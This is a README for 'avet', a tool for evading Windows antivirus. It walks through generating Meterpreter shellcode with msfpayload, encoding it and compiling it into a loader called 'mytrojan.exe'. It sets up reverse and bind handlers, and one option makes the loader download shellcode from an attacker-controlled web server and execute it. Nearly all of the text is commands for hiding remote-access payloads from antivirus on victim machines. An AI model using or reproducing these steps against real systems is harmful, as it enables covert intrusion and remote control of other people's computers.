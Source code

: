 AntiVirus Evasion Tool
======================

Please note that this tool was developed based on Backtrack 5, which I still use for some things. Shellcode downloading (-u) is a bit buggy and noisy, so better use the -f switch. Unfortunately I do not have the time to enhance avet or to develop a version that is running with kali. But I think nevertheless it might be interesting for some people. 

For basics about antivirus evasion have a look at my old article: https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines
- avet includes two tools, avet.exe with different antivirus eavasion techniques and make_avet for compiling a preconfigured binary file
- avet.exe loads ASCII encoded shellcode from a textfile or from a webserver
- for encoding the shellcode the tool format.sh and sh_format are included
- Tools used: Based on Backtrack 5, wine, MinGW, metasploit. Works fine on different systems.


How to use avet.exe
-------------------

You can use the precompiled avet.exe file as a shellcode loader.

Example 1, loading shellcode from a file:

Attackers machine:
```
$ msfpayload windows/meterpreter/bind_tcp C > sc.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt & avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -f shellcode.txt
```

Example 2, loading shellcode from a webserver:

Attackers machine:
```
$ msfpayload windows/meterpreter/bind_tcp C > sc.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt to your webroot and avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -u yourserver/sc_clean.txt
```

How to use make_avet
--------------------
Compile if needed:
```
$ gcc -o make_avet make_avet.c
```

Example 1, compile shellcode into the .exe file:
```
$ msfpayload windows/meterpreter/reverse_https lhost=192.168.2.112 lport=443 C > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ ./make_avet -f sh_clean.txt
$ wine ~/.wine/drive_c/MinGW/bin/gcc.exe -o mytrojan.exe avet.c
```

Example 2, make an .exe file that downloads a shellcode from a webserver:
```
$ msfpayload windows/meterpreter/reverse_https lhost=192.168.2.112 lport=443 C > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ cp sh_clean.txt /var/www
$ ./make_avet -u 192.168.2.112/sh_clean.txt
$ wine ~/.wine/drive_c/MinGW/bin/gcc.exe -o mytrojan.exe avet.c
```

Check out the other options as well:
```
-f compile shellcode into avet.exe, needs filename
-u load and exec shellcode from url using internet explorer
-p print debug information
-h help
```

Some notes
----------

Rebuild avet.exe:
No problem, ensure no content is in defs.h (echo "">defs.h), then compile with:
```
$ wine ~/.wine/drive_c/MinGW/bin/gcc.exe -o avet.exe avet.c
```

Have a look for build.sh for easier handling.
